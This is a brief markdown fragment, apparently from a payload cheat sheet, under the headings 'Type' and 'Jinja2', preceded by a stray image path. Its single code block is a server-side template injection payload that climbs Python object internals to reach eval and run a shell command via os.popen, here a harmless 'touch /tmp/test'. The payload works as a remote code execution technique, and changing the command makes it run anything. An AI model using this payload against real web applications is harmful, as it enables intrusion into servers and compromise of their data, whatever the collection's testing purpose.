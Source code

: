 # Type
## Jinja2
```
{{().__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("touch /tmp/test").read()')}}
```
- 
